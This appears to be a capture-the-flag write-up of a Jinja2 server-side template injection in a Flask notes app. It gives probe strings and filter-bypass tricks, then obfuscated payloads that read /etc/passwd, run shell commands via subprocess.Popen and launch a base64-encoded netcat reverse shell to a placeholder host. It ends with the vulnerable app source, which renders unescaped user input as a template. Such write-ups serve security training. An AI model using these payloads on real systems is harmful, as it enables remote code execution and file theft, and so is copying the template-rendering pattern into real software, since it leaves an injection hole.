


# Discovery of SSTI vuln:
```
http://challenge2.lagncrash.com:17654/{{7*7}}
```

<br>
```
http://challenge2.lagncrash.com:17654/{{config}}
```

<br>
Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
<br>
<br>
<br>

# Getting bypass filter codes:
```
[[]|map|string|list][0][0] = <
[[]|map|string|list][0][42] = >
[[]|map|string|list][0][20] = _
[[g]|string|list][0][13] = '
[[g]|string|list][0][7] = .
```

<br>
<br>
<br>

# Decided to try the payload:
Payload:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['fort', [1|float|string|list][0][1], 'py']|join,'r')|attr('read')() }}
```
Changed to /etc/passwd:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['/etc/passwd','r')|attr('read')() }}
```

<br>
<br>
<br>
Ditching start from scratch to just get flag.txt
<br>

<br>

Reference: https://fireshellsecurity.team/asisctf-fort-knox/ (All the techniques)<br>
Reference: https://hackmd.io/@Chivato/HyWsJ31dI(Changing the techniques to do stuff)
<br>
<br>
<br>
# Review - Getting a shell :D
From https://fireshellsecurity.team/asisctf-fort-knox/:
https://abcdsh.blogspot.com/2019/04/writeup-asis-2019-quals-fort-knox.html
This uses ```["61"["decode"]("hex")] = 'a'``` to bypass

RCE from payloadsallthethings:
```
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

Dumping subclass to get subprocess.Popen:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()}}

=

{{''.__class__.mro()[2].__subclass__()}}
```
subprocess.Popen:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]}}

=

{{''.__class__.mro()[2].__subclass__()[230]}}
```
cat flag.txt again:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]('cat flag.txt',shell=True,stdout=-1)['636F6D6D756E6963617465'['decode']('hex')]()[0]['7374726970'['decode']('hex')]()}}

=

{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```
Test for internet connection:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]('curl portquiz.net:17654',shell=True,stdout=-1)['636F6D6D756E6963617465'['decode']('hex')]()[0]['7374726970'['decode']('hex')]()}}

Command:
curl portquiz.net:17654
```
Use base64 to bypass filter and get reverse shell:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]('echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgeC54LngueCA4MCA+L3RtcC9m | base64 -d | sh',shell=True,stdout=-1)['636F6D6D756E6963617465'['decode']('hex')]()[0]['7374726970'['decode']('hex')]()}}

Command:
echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgeC54LngueCA4MCA+L3RtcC9m | base64 -d | sh

Revshell:
(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 80 >/tmp/f)
```

Source code(Filters):
```
root@f6f551d6a9a4:/Photos-Docker-Flask/app# cat __init__.py
from flask import *
from flask import Flask, request, render_template, flash, url_for
from flask_sqlalchemy import SQLAlchemy
from flask import app
from flask_login import LoginManager
from flask_migrate import Migrate
from werkzeug.exceptions import HTTPException
from config import app_config
import re
from htmlentitydefs import name2codepoint
from flask import escape
from flask import flash

def htmlentitydecode(s):
        return re.sub('&(%s);' % '|'.join(name2codepoint),
                        lambda m: unichr(name2codepoint[m.group(1)]), s)

db = SQLAlchemy()
login_manager = LoginManager()

def create_app(config_name):
        app = Flask(__name__, instance_relative_config=True)
        from app import models

        app.config.from_pyfile('config.py')
        db.init_app(app)

        @app.route('/')
        def home():
                return render_template('home.html')

        @app.errorhandler(404)
        def error404(e):
                link = htmlentitydecode(request.url).replace('_','')
                template = '''
                <div>
                <h1>Oops! This page does not exist</h1>
                <h3>%s</h3>
                GO BACK TO:
                <ul class="menu">
                  <li><a href="{{ url_for('create_notes') }}">Create Notes</a></li>
                </ul>
                </div>
                ''' % (link)

                return render_template_string(template), 404

        migrate = Migrate(app,db)

        @app.route("/about")
        def about():
                return render_template("about.html")

        @app.route("/notes", methods=["GET", "POST"])
        def notes():
                notes = ''
                try:
                        ntitle = ((((((request.args['ntitle']).replace('{', '')).replace('}', '')).replace('_', '')).replace(',', '')).replace('|', '')).replace('[', '')
                        ndetail = ((((((request.args['ndetail']).replace('{', '')).replace('}', '')).replace('_', '')).replace(',', '')).replace('|', '')).replace('[', '')
                        notes = '''
                        <div>
                        <h1>Title: %s</h1>
                        <h3>Details: %s</h3>
                        </div>
                        ''' % (escape(ntitle), escape(ndetail))
                except:
                        pass
                return render_template_string(notes)


        @app.route("/create-notes", methods=["GET", "POST"])
        def create_notes():
                if request.method == "GET":
                        return render_template('create_notes.html')
                else:
                        try:
                                title = request.form['title']
                                detail = request.form['detail']
                        except:
                                title =  ''
                                detail = ''
                        return redirect(url_for('notes', ntitle=title, ndetail=detail))

        return app
```